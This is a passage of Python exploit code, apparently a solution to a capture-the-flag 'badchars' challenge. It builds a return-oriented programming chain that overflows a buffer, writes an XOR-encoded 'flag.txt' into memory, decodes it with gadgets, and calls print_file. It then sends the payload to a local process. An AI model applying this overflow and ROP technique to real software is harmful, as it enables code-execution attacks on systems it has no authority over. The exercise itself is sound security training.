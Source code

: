 ```python
    for u8 in u8s:
        byte = int(u8) ^ XOR_KEY
        ret += byte.to_bytes(1, "little")

    return ret

def generate_xor_operation(offset):
    op = bytes()
    # ret to pop r14 and r15 gadget
    op += POP_R14_R15_GADGET
    # pop the xor key into r14
    op += p64(XOR_KEY)
    # pop the address with offset into r15
    op += p64(DATA_ADDR + offset)
    # ret to the operation
    op += XOR_R15_R14B_GADGET

    return op

def audit_payload(payload):
    for b in payload:
        if int(b) in BAD_CHARS:
            return chr(b)
    return None

xored_flagpath = xor_bytes(b"flag.txt")
# fuck you, you did it wrong
assert len(xored_flagpath) == 8, "xored flag path is %i bytes long" % len(xored_flagpath)

# overflow buffer
payload = b'A' * 40
# ret to pop all 4 r registers
payload += POP_R12_TO_R15_GADGET
# pop xored flagpath into r12
payload += xored_flagpath
# pop data address into r13
payload += p64(DATA_ADDR)
# pop nonsense into r14
payload += p64(0xffffffff)
# pop nonsense into r15
payload += p64(0xffffffff)
# mov data from r12 into [r13]
payload += MOV_R13_PTR_GADGET
# generate our string of xor operations
for i in range(8):
    payload += generate_xor_operation(i)

# ret to pop rdi
payload += POP_RDI_GADGET
# pop data address into rdi (param to print_file)
payload += p64(DATA_ADDR)
# ret to print file
payload += PRINT_FILE

# oops, too much ROP for today
assert len(payload) <= 0x200, "payload is too long"

audit_res = audit_payload(payload)
assert audit_res is None, "fuck you, payload contains character '%s'" % audit_res

conn = process()
conn.recvuntil(b"> ")
conn.send(payload)
```